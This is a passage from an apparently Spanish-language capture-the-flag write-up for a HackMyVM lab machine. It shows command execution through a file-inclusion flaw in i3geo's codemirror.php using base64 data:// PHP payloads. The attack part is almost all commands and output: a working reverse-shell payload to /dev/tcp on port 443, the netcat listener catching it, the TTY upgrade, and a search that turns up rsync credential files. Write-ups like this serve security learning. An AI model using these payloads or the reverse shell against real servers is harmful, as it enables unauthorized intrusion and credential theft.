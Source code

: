 ```bash
❯ curl "http://lovegeografia.anaximandre.hmv/exemplos/codemirror.php?&pagina=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg=="
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Paso ``<?php system("bash -c 'bash -i >& /dev/tcp/10.0.2.4/443 0>&1'"); ?>`` -- a base64 -- ``PD9waHAgc3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMi40LzQ0MyAwPiYxJyIpOyA/Pg==``

Y de esta manera obtengo un reverse shell
```bash
❯ curl "http://lovegeografia.anaximandre.hmv/exemplos/codemirror.php?&pagina=data://text/plain;base64,PD9waHAgc3lzdGVtKCJiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMi40LzQ0MyAwPiYxJyIpOyA/Pg=="
```
```bash
❯ nc -lvnp 443
listening on [any] 443 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.33] 44978
bash: cannot set terminal process group (539): Inappropriate ioctl for device
bash: no job control in this shell
www-data@anaximandre:/var/www/i3geo/exemplos$
```

Actualizamos nuestra shell a una TTY

```bash
www-data@anaximandre:/var/www/i3geo/exemplos$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<los$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@anaximandre:/var/www/i3geo/exemplos$ ^Z
zsh: suspended  nc -lvnp 443
                                                               
❯ stty raw -echo;fg   
[1]  + continued  nc -lvnp 443

www-data@anaximandre:/var/www/i3geo/exemplos$ export TERM=xterm SHELL=bash
```

Buscando archivos se me da por buscar rsync y encuentro archivos de configuracion

```bash
www-data@anaximandre:/home/chaz$ find / -name rsync* 2>/dev/null
/sys/fs/cgroup/system.slice/rsync.service
/usr/share/bash-completion/completions/rsync
/usr/share/lintian/overrides/rsync
/usr/share/doc/rsync
/usr/share/doc/rsync/examples/rsyncd.conf
/usr/share/rsync
/usr/share/rsync/scripts/rsync-no-vanished
/usr/share/rsync/scripts/rsyncstats
/usr/share/perl5/URI/rsync.pm
/usr/share/man/man5/rsyncd.conf.5.gz
/usr/share/man/man1/rsync-ssl.1.gz
/usr/share/man/man1/rsync.1.gz
/usr/lib/systemd/system/rsync.service
/usr/bin/rsync-ssl
/usr/bin/rsync
/etc/init.d/rsync
/etc/rsyncd.conf
/etc/rsyncd.auth
/etc/systemd/system/multi-user.target.wants/rsync.service
/etc/default/rsync
/var/lib/systemd/deb-systemd-helper-enabled/rsync.service.dsh-also
/var/lib/systemd/deb-systemd-helper-enabled/multi-user.target.wants/rsync.service
/var/lib/dpkg/info/rsync.postrm
/var/lib/dpkg/info/rsync.md5sums
/var/lib/dpkg/info/rsync.list
/var/lib/dpkg/info/rsync.conffiles
/var/lib/dpkg/info/rsync.postinst
```